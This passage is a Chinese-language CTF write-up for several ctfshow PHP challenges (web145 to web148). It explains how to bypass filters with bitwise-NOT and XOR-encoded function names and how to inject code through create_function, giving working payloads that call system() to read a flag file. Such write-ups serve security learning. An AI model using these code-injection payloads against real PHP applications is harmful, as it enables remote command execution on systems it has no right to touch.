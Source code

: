     eval("return 1?phpinfo():1;"");

因此payload也可以：

    ?v1=1&v3===(~%8c%86%8c%8b%9a%92)(~%8b%9e%9c%df%99%d5)''&v2=1

## web146

考点：等号和位运算符
如下可以执行phpinfo：

    eval("return 1==phpinfo()''1;");

所以payload:

    v1=1&v3===(~%8c%86%8c%8b%9a%92)(~%8b%9e%9c%df%99%d5)''&v2=1

## web147

考点：1.正则表达式的绕过
2.create_function()函数的注入
首先看这个正则表达式，要在我们需要执行的函数开头或者结尾匹配一个不是数字的字符。看了下别的师傅fuzz了一下是在开头加上一个\，原理是，php的函数调用的默认命名空间就是在\下，所以加一个\是不影响函数的调用的。
第二个就是create_function函数的注入。这个函数使用方法如下：

    create_function('$a,$b','return 111;');

    =>

    function a($a,$b){
        return 111;
    }

然而这个函数的使用是用字符串拼接的，因此可以存在注入：

    create_function('$a,$b','return 111;}{phpinfo();')

    =>

    function a($a,$b){
        return 111;}{phpinfo();
    }

所以这道题的payload也很明显了：

    ?show=echo 123;}{system('tac f*');
    post: ctf=\create_function

## web148

俺一看，没有过滤异或，所以直接用异或调用了get_ctfshow_fl0g()函数：

    ?code=("%07%05%09%01%03%09%06%08%08%0f%08%01%06%0c%0b%07"^"%60%60%7d%5e%60%7d%60%7b%60%60%7f%5e%60%60%3b%60")(""^"");

看了一下别的师傅发现预期解不是这样的，预期解是利用中文变量。
羽师傅的payload:
